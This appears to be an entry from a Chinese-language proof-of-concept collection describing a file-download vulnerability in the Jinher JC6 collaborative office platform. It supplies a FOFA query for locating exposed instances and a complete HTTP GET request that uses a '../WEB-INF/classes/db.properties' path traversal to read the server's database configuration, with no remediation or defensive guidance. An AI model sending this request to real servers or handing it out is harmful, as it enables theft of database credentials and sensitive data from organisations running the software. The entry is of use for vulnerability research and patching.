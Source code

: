 # 金和JC6协同管理平台oaplusrangedownloadfile存在文件下载漏洞

金和数字化智能办公平台（简称JC6）是一款结合了人工智能技术的数字化办公平台，为企业带来了智能化的办公体验和全面的数字化转型支持。金和JC6协同管理平台oaplusrangedownloadfile 存在文件下载漏洞，攻击者可利用该漏洞获取服务器敏感信息。

## fofa

```javascript
app="Jinher-OA"
```

## poc

```javascript
GET /jc6/JHSoft.WCF/login/oaplusrangedownloadfile?filename=../WEB-INF/classes/db.properties HTTP/1.1
Host: 
accept: */*
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/121.0.0.0 Safari/537.36
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Connection: close
```

![图片](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202412132156695.webp)



## 漏洞来源

- https://mp.weixin.qq.com/s/TjNcd628M9COW2H9nTMPKQ
